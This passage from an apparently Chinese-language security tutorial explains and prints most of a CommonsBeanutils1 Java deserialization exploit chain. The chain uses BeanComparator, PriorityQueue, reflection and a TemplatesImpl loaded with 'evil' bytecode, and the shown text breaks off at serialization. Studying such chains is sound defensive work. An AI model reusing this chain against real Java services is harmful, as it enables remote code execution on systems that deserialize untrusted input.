 然后，我们实例化本篇讲的`BeanComparator`。`BeanComparator`构造函数为空时，默认的`property`就是空：

```php
final BeanComparator comparator = new BeanComparator();
```

然后用这个comparator实例化优先队列`PriorityQueue`：

```php
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
// stub data for replacement later
queue.add(1);
queue.add(1);
```

可见，我们添加了两个无害的可以比较的对象进队列中。前文说过，`BeanComparator#compare()`中，如果`this.property`为空，则直接比较这两个对象。这里实际上就是对两个`1`进行排序。

初始化时使用正经对象，且`property`为空，这一系列操作是为了初始化的时候不要出错。然后，我们再用反射将`property`的值设置成恶意的`outputProperties`，将队列里的两个1替换成恶意的`TemplateImpl`对象：

```php
setFieldValue(comparator, "property", "outputProperties");
setFieldValue(queue, "queue", new Object[]{obj, obj});
```

最后完成整个CommonsBeanutils1利用链：

```php
package com.govuln.deserialization;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

public class CommonsBeanutils1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
                ClassPool.getDefault().get(evil.EvilTemplatesImpl.class.getName()).toBytecode()
        });
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add(1);
        queue.add(1);

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
```